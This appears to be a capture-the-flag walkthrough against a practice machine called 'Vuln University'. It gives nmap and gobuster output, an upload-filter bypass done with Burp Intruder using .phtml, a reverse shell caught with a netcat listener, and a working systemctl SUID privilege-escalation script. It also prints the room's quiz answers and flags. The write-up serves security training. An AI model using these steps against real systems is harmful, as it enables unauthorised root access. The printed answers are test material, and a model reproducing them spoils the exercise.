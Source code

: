 # ran nmap -A 10.10.30.236 to find open ports and results:

Nmap scan report for 10.10.30.236
Host is up (0.11s latency).
Not shown: 994 closed ports
PORT     STATE SERVICE     VERSION
21/tcp   open  ftp         vsftpd 3.0.3
22/tcp   open  ssh         OpenSSH 7.2p2 Ubuntu 4ubuntu2.7 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 5a:4f:fc:b8:c8:76:1c:b5:85:1c:ac:b2:86:41:1c:5a (RSA)
|   256 ac:9d:ec:44:61:0c:28:85:00:88:e9:68:e9:d0:cb:3d (ECDSA)
|_  256 30:50:cb:70:5a:86:57:22:cb:52:d9:36:34:dc:a5:58 (ED25519)
139/tcp  open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp  open  netbios-ssn Samba smbd 4.3.11-Ubuntu (workgroup: WORKGROUP)
3128/tcp open  http-proxy  Squid http proxy 3.5.12
|_http-server-header: squid/3.5.12
|_http-title: ERROR: The requested URL could not be retrieved
3333/tcp open  http        Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Vuln University
Service Info: Host: VULNUNIVERSITY; OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

# What version of the squid proxy is running on the machine?
3.5.12

# Using the nmap flag -n what will it not resolve?
DNS

# What is the most likely operating system this machine is running?
Ubuntu

# What port is the web server running on?
3333

# ran gobuster dir -u http://10.10.30.236:3333 -w /usr/share/wordlists/dirb/big.txt -t 250 and results:

/css                  (Status: 301) [Size: 317] [--> http://10.10.30.236:3333/css/]
/fonts                (Status: 301) [Size: 319] [--> http://10.10.30.236:3333/fonts/]
/images               (Status: 301) [Size: 320] [--> http://10.10.30.236:3333/images/]
/internal             (Status: 301) [Size: 322] [--> http://10.10.30.236:3333/internal/]
/js                   (Status: 301) [Size: 316] [--> http://10.10.30.236:3333/js/]      
/server-status        (Status: 403) [Size: 302]             


# Try upload a few file types to the server, what common extension seems to be blocked?
.php

# created a wordlist in Burp Suite with php extentions
.php
.php3
.php4
.php5
.phtml

#Intercepted the traffic in Burp Suite after uploading a php-reverse shell file to http://10.10.30.236:3333/internal and sent the results to Intruder. Added the wordlist in Payload's options, and selected Sniper as the attack.  Next, selected the filename extension .php in the intercept and clicked on Add §.
Results, .phtml files are now allowed to be uploaded to http://10.10.30.236:3333/internal/

# setup a nc -lvnp 4444 before opening the shell from http://10.10.30.236:3333/internal/uploads to gain access

# What is the name of the user who manages the webserver?
Bill

# Flag
8bd7992fbe8a6ad22a63361004cfcedb

# To find the SUID files, ran $ find . -perm /4000 2>/dev/null.  On the system, search for all SUID files. What file stands out?
/bin/systemctl

# To gain root access, used the systemctl binary:
TF=$(mktemp).service
echo '[Service]
Type=oneshot
ExecStart=/bin/sh -c "chmod +s /bin/bash"
[Install]
WantedBy=multi-user.target' > $TF
/bin/systemctl link $TF
/bin/systemctl enable --now $TF

# Lastly, used bash -p to switch to root user.  Flag in root.txt:
a58ff8579f0a9270368d33a9966c7fd5

